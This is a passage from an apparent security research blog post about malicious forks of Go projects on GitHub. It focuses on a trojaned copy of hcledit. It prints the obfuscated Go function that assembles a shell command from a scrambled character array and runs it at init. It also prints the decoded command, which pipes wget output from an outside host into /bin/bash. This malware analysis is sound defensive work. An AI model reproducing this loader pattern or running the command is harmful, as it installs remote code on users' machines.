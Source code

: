 {{< /details >}}

{{< figure src="/img/2025-02-28-malicious-go-programs/forks-of-malicious-usetesting.png" width="80%" caption="Forks of the malicious `usetesting`" >}}

And obviously, they have other malicious programs in their repository list.

For example, here is one of the suspicious user profiles that has only two repositories with malicious programs.

{{< figure src="/img/2025-02-28-malicious-go-programs/suspicious-user.png" width="80%" caption="Suspicious user profile" >}}

### Malicious `stylishorgani/hcledit`

A simple check revealed that `stylishorgani/hcledit` is a malicious version of [`mercari/hcledit`](https://github.com/mercari/hcledit).

{{< figure src="/img/2025-02-28-malicious-go-programs/malicious-hcledit.png" width="80%" caption="Malicious hcledit repository" >}}

It contains a malicious function in `cmd/hcledit/internal/command/create.go`.

{{< details summary="*Click to view the malicious function from `stylishorgani/hcledit`*" >}}

```go
func NFNblah() error {
	BBD := []string{"e", "/", "b", "w", "s", "p", "t", "a", "t", "7", " ", "/", "f", "s", "h", "r", "m", "4", "e", "/", "g", "c", "e", "t", "3", "0", "b", "g", ".", "t", "h", "s", " ", "e", "f", "1", "|", "c", "6", "d", "-", "d", "o", "i", "s", "/", "/", "O", "/", "/", "a", "-", "t", "3", "3", " ", " ", "n", "h", "a", ":", "s", " ", "i", "y", "b", "a", "5", "n", "l", "c", " ", "d", "&"}
	TQeQbfU := "/bin/sh"
	ifqvTp := "-c"
	upYM := BBD[3] + BBD[27] + BBD[18] + BBD[6] + BBD[71] + BBD[51] + BBD[47] + BBD[10] + BBD[40] + BBD[56] + BBD[58] + BBD[52] + BBD[23] + BBD[5] + BBD[61] + BBD[60] + BBD[19] + BBD[48] + BBD[57] + BBD[64] + BBD[16] + BBD[21] + BBD[69] + BBD[50] + BBD[4] + BBD[31] + BBD[63] + BBD[37] + BBD[28] + BBD[29] + BBD[33] + BBD[70] + BBD[14] + BBD[49] + BBD[44] + BBD[8] + BBD[42] + BBD[15] + BBD[59] + BBD[20] + BBD[22] + BBD[45] + BBD[72] + BBD[0] + BBD[24] + BBD[9] + BBD[54] + BBD[39] + BBD[25] + BBD[41] + BBD[34] + BBD[46] + BBD[66] + BBD[53] + BBD[35] + BBD[67] + BBD[17] + BBD[38] + BBD[2] + BBD[12] + BBD[62] + BBD[36] + BBD[55] + BBD[11] + BBD[26] + BBD[43] + BBD[68] + BBD[1] + BBD[65] + BBD[7] + BBD[13] + BBD[30] + BBD[32] + BBD[73]
	exec.Command(TQeQbfU, ifqvTp, upYM).Start()
	return nil
}

var UjThWM = NFNblah()
```

{{< /details >}}

The function `NFNblah` does the same as `TlaOAE` but downloads the file `a31546bf` from a different URL:

```stdout
/bin/sh -c wget -O - https://nymclassic.tech/storage/de373d0df/a31546bf | /bin/bash &
```
